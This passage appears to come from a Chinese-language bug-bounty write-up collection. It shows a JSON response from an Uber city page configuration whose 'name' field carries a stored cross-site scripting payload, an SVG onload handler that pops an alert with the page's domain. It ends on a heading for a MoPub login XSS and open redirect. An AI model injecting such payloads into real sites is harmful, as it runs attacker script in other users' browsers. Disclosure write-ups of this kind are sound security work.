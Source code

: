 ```
            "perDistanceUnit":"USD9999.99",
            "additionalFees":[  

            ]
         },
         "displayName":"uberXL",
         "tagline":"XSS",
         "taxiFareInfo":false,
         "finePrint":[  
            "XSS"
         ]
      }
   ],
   "flatRates":[  

   ],
   "id":9999,
   "cityId":9999,
   "flatRateDisplayNames":[  

   ],
   "geoJson":null,
   "geoPoint":{  
      "latitude":33.951252,
      "longitude":-83.382943
   },
   "slug":"xss",
   "twitterHandle":null,
   "theme":{  
      "name":"united_states",
      "ctaColor":"#57AD57",
      "patternColor":"#4DB5D9",
      "patternColorBackground":"#A6DAEC"
   },
   "rideContent":"XSS",
   "driveContent":"XSS",
   "impactContent":"XSS",
   "name":"<marquee>XSS</marquee><svg onload=\"alert('XSS on '+ document.domain)\">",
   "pageTitle":"XSS",
   "pageDescription":"XSS",
   "productLegalNotice":null,
   "pageConfiguration":{  

   }
}
```  
# 3. MoPub 登录页的XSS及开放重定向漏洞  
- 厂商：推特  
  